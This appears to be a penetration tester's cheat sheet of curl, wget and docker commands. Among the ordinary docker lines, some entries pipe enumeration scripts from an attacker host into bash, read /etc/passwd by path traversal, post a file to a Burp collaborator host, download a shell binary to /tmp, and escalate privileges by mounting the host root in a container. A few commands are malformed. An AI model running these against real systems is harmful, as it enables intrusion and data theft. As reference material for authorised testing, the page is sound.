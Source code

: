 ### `curl`

```bash
# upload files via curl
$ curl --user "{user}:{creds}" --upload-file=<file> "http://$IP/upload_location"

$ curl http://$IP -o index.html

# pipe the requesting files
$ curl http://$IP:$PORT:lin(peas\|enum).sh | bash

# proxy request
$ curl --proxy http://127.0.0.1:8080

$ curl --path-as-is http://$IP/../../../../../../etc/passwd

$ cat file.txt | curl -X POST -d @- http://burp.collaborator
```

### `wget`

```bash
# download files with wget
$ wget http://$IP/xxx.sh

# run files without downloading
$ wget -O - http://$IP:<port>:lin(peas\|enum).sh

# download file and save it somewhere (tmp)
$ wget -O /tmp/shell.elf $IP/shell.elf
```

### `docker`

```bash
# https://blog.ropnop.com/docker-for-pentesters/

$ docker version
$ docker info
$ docker pull registry:5000/alpine
$ docker inspect <container-id>
$ docker network ls
$ docker image ls
$ docker image history <image-name>
$ docker port <container-id>
$ docker rmi <image-name>
$ docker system prune -a
$ docker ps -a
$ docker start <container-id>
$ docker stop <container-id>
$ docker rm <container-id>

$ docker exec -it <container-id> /bin/sh # Get shell inside a container
$ docker run -it -v /:/host/ <image-name> chroot /host/ bash # Privesc technique
$ docker cp <container-id>:/etc/passwd exfil_passwd
$ docker exec <container-id> <command>
```
